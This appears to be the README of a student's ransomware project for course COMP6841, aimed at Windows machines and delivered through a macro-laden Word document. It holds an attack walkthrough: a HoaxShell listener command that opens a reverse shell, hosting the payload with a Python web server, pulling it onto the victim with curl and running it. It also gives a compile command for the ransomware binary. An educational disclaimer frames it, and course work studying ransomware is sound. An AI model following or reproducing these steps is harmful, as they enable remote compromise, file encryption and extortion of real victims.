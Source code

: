 # Disclaimer: Educational Use Only
This is a live ransomware, and can be activated. Source code has been provided, and safety checks have been builtin and processes are non-distructive. However, the malware can easily be activated and changed, and therefore use responsibily. This repository has been made private, and should only be accessed by the author and trusted individuals. 

If you are trusted, do not share this repository around. 

This ransomware is created strictly for educational purposes and is intended to demonstrate how ransomware works in a controlled environment. It is designed to help cybersecurity professionals, students, and researchers understand and learn about the mechanics of ransomware in order to improve defenses against such attacks.

By downloading or using this software, you agree to the following:

- You will use this tool in a legal and ethical manner, strictly for educational and research purposes in environments where you have permission.
- You acknowledge that deploying this software on systems without permission is illegal and may result in severe penalties under applicable laws.
- The developer is not responsible for any misuse of this software.
- Use responsibly, and always in compliance with local laws and regulations.

Make sure you ONLY COMPROMISE YOUR OWN SYSTEM, OR WITH WRITTEN PERMISSION. And do not repurpose this educational ransomware for malicious purposes. I will take no responsibility for any legal repurcussions.

# Something Awesome Ransomware
This repository is created to host my Something Awesome Project for the course COMP6841. It is a ransomwware, designed to educate myself and others in malware developement, and the ease in which it can cause damage. It has been built to target Windows Machines, due to the majority of the world utilising a Windows System (and I also thought it would be more fun to target).

The ransomware creates a foothold in the system using a malicious Word Document with embedded macros. Two strains/variants of this ransomware has been included - one to establish a C2 connection with a machine, the other as a fire-and-forget ransomware. Files are copied and encrypted, leaving the original file unscathed.

# Installation
Run `git clone <insert link>` in your local terminal to clone the repository.

Install dependencies. These are:
- HoaxShell:
- OpenSSL library for Linux
- MinGW
- Word
  
To compile the code: `x86_64-w64-mingw32-gcc -o Explore.exe <file>.c -I./path/to/openssl/include -L.path/to/openssl -lssl -lcrypto -lws2_32 -lwsock32 -lcrypt32 -static`

# Usage/Demostration (with C2 capabilities)
## Attacking
1. Create a HoaxShell listener on an attacking machine using the command `python3 hoaxshell.py -s <ip> -r -g`. Please refer to the HoaxShell documentation above to learn more about this tool
2. Activate the Word document (and its macros) on the victim machine.
3. Confirm that a connection has been established and a reverse shell created.
4. Create a web server on your own machine to host the files with `python3 -m http.server <insert port>`
5. Use `curl` to download your files onto the target machine with the C2.
6. Use `./<ransomware file name>` to activate.
Note: do not delete the key file. This is necessary for decryption.

## Decrypting
1. Ensure that the key file is present.
2. Compile the decryption software and run it on the victim machine.

Note: the decryption does not support multiple rounds of encryption.
